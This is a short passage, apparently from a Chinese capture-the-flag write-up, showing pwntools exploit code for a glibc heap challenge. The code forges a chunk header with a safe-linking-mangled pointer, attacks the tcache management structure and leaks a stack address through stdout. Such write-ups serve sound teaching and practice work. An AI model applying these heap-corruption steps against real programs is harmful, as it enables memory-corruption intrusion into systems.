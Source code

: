 [![](assets/1701606615-a38980f9995fbe182f3e8f1f0567849d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213752-2cd5648c-83bc-1.png)

```bash
pl='a'*0x380+p64(0)+p64(0x411)+p64((heap_base+0x10)^(heap_base>>12))
edit(9,0x400,pl)
```

[![](assets/1701606615-7aee00f295608fd0b50be38c010b291a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213803-3321e43c-83bc-1.png)  
然后利用 attack tcache\_struct 和 IO\_leak 泄露栈地址

```bash
sl('')
add(0x408,'aaaa')
pl=p64(0x1)+p64(0)*14+p64(0x0007000000000000)+p64(0)*0x3f+p64(stdout)
add(0x408,pl)

ru('\n')
stack=u64(p.recvuntil('\x7f').ljust(8,'\x00'))-0x120
leak('stack ',stack)
```
